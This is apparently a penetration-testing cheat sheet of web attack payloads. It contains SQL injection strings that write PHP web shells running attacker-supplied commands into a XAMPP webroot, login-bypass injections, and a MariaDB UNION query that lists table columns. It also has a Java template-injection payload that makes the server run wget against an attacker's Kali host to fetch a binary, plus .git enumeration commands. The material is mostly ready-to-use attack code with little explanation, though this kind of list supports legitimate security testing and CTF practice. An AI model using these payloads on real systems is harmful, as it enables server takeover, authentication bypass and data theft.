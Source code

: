 Inject RCE.

```bash
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE 'C:/xampp/htdocs/backdoor.php'  --
```

```bash
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'
```

### SQL Injection Cheatsheet

```bash
admin'||'1==1--
```

```bash
admin' || '1==1//
```

### SQL Injection to get user data (MariaDB)

```bash
' AND 1=2 UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='user'--
```

### Union based SQL Injection

[http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html)

### MongoDB Login

```bash
mongo -u $user -p $pass localhost:27017/$db
```

### SSTI Injection (Java)

[https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md)

```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget $kali_ip/r.elf")}
```

### .GIT Enumeration

In the .git directory:

```bash
git ls-files --stage
```

```bash
git log
```
